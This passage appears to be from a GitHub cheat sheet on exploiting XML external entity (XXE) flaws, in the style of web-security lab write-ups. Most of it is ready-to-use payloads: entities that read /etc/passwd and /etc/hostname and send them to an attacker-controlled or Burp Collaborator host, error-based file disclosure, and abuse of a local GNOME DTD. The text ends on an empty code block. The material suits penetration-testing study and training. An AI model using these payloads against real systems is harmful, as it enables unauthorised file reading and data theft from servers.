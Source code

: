 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://attacker-doamin.com/?x=/etc/passwd"> %xxe; ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.
### Exploiting blind XXE via external DTD server
Host this payloads with burp collaborator in external DTD server.<br>
To exfiltrate data in collaborator server.
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://uljekvrxmftdii2pjz7amtzpigo7c50u.oastify.com/?x=%file;'>">
%eval;
%exfil;
```
To retrieve data via error messages.
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
Now paste the attackers external DTD server link in vulnerable xml field.
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://attacker-external.dtd.server"> %xxe; ]>
```
### Exploiting XXE to retrieve data by repurposing a local DTD against known Operating System
Locate an existing DTD file to repurpose. For example, Linux systems using the GNOME desktop environment often have a DTD file at /usr/share/yelp/dtd/docbookx.dtd. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing. Try bruteforcing with common dtd file names via burp intruder to identify local dtd file. 
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
Now use this payload with identified dtd.
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
or use this if not working
```
```